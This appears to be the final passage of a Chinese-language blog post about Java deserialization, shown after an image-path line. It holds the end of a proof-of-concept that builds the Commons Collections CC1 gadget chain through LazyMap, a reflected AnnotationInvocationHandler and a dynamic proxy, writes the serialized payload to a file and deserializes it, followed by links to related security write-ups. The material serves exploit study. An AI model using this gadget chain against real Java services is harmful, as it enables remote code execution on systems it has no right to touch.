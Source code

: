 ```
                })
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        Map outmap = LazyMap.decorate(innermap,chain);

        Class DawnT0wn = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = DawnT0wn.getDeclaredConstructor(Class.class,Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class,outmap);
        Map Mapproxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},handler);
        
        handler = (InvocationHandler) construct.newInstance(Retention.class,Mapproxy);
        
        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("LazyMap.bin"));
        os.writeObject(handler);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("LazyMap.bin"));
        fos.readObject();
    }
}
```





参考链接

https://xz.aliyun.com/t/10357#toc-6

https://www.freebuf.com/vuls/276632.html

http://1.15.187.227/index.php/archives/457/

https://su18.org/post/ysoserial-su18-2/#transformedmap

https://xz.aliyun.com/t/9873#toc-14

















